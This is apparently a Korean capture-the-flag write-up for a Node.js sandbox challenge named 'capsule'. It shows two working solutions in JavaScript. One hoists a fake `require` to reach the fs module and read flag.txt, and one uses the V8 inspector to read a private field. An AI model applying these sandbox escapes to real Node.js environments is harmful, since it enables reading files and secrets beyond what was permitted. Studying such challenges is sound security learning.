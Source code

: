# capsule
### #v8 #javascript #node.js #hoisting(?)


![intro](../../.images/capsule1.png)

[begginer_capsule](../beginner_capsule/README.md) 과 유사한 코드이다. 

다만 `console.log(eval('_flag.get(flag)'));` 의 코드로는 풀리지 않는다.

![error](../../.images/capsule2.png)


`_flag` 는 undefined 상태라고 한다.


우선 가장 간단한 풀이는 [함수 호이스팅](https://ojava.tistory.com/144) 을 이용한 풀이이다.

`require` 함수를 호이스팅 하였는데 file system 모듈은 `process.mainModule` 을 이용하여 가져옴으로써 우회 하였다.

이걸 생각한 사람은 천재가 아닐까 싶다.

```javascript
function require() {
  const fs = process.mainModule.require('fs');
  console.log(fs.readFileSync('flag.txt').toString());
}
```


그리고 출제자가 생각한 풀이는 다음과 같다.

```javascript
global.flag = flag;
const inspector = require('inspector');
const session = new inspector.Session();
session.connect();
session.post('Runtime.evaluate', {expression: 'flag'}, (e, d) => {
  session.post('Runtime.getProperties', {objectId: d.result.objectId}, (e, d) => {
    console.log(d.privateProperties[0].value.value);
  });
});
```

node.js 가 사용하는 **v8** 엔진의 inspector 모듈을 갖고 와서 플래그를 읽어온다.

출제자의 말에 따르면 [여기](https://github.com/nodejs/node/issues/27404#issuecomment-569924796) 에서 출처를 얻었다고 한다.

.

.

.

**Contact:** a42873410@gmail.com